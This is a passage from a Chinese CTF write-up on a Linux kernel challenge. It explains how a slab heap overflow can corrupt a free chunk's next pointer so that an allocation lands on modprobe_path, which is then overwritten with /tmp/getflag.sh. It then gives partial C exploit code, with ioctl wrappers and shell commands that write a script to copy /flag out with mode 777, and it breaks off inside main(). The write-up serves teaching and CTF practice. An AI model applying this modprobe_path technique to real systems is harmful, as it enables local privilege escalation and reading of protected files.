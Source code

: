 ****任意地址写****

然后就利用堆溢出漏洞修改空闲堆块的`next`指针为 `modprobe_path`地址，来实现分配伪造堆块到 `modprobe_path`处。关于内核堆的知识，这里不做展开讲述，可以参考[这篇文章](https://blog.csdn.net/lukuen/article/details/6935068)。简单来说`Linux`内核对小内存分配使用的是 `slab/slub`分配器，其与glibc下的`ptmalloc`的`fastbin`有许多类似的地方，比如`Kfree`后，空闲堆块也会有 `fd`指针指向下一个空闲块。而且`slab`分配的空闲堆块从一开始地址都是连续的，他们共同组成一个内存页面。类似如下，第一个 `0x400` 空闲堆块其堆头的`next`指向`0xffff400`地址，也就是紧邻的下一个`0x400`空闲堆块，而 `0xffff400`的`next`指针指向了 `0xffff800`的空闲堆块。

```
0xffff000        | next-&gt; 0x400 |      0x0        |
...
0xffff400        | next-&gt; 0x800 |     0x0        |
...
0xffff800        | next-&gt;0xc00  |    0x0        |
...
```

所以，通过堆溢出，修改紧邻的下一个空闲堆块的`next`指针指向 `modprobe_path`，然后再分配两次堆块，即可将伪造堆块分配到 `modprobe_path`地址处。

最后，将`modprobe_path`按照上述覆写为 `/tmp/getflag.sh`即可。

```
pwndbg&gt; x/s 0xffffffff9f242320
0xffffffff9f242320:     "/tmp/getflag.sh"
```

`EXP`如下：

```
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/prctl.h&gt;

int fd;
size_t offset = 0x0;

void cmalloc(int size)`{`
    if(-1 == ioctl(fd, 0x73311337, size))`{`
        printf('malloc error\n');
    `}`
`}`

void cfree()`{`
    if(-1 == ioctl(fd, 0x13377331, NULL))`{`
        printf('free error\n');
    `}`
`}`

void cprintf()`{`
    if(-1 == ioctl(fd, 0xDEADBEEF, NULL))`{`
        printf('print error\n');
    `}`
`}`

void main()`{`
    system("echo -ne '#!/bin/sh\n/bin/cp /flag /tmp/flag\n/bin/chmod 777 /tmp/flag' &gt; /tmp/getflag.sh");
    system("chmod +x /tmp/getflag.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' &gt; /tmp/ll");
    system("chmod +x /tmp/ll");

    fd = open("/dev/meizijiutql", O_RDWR);
```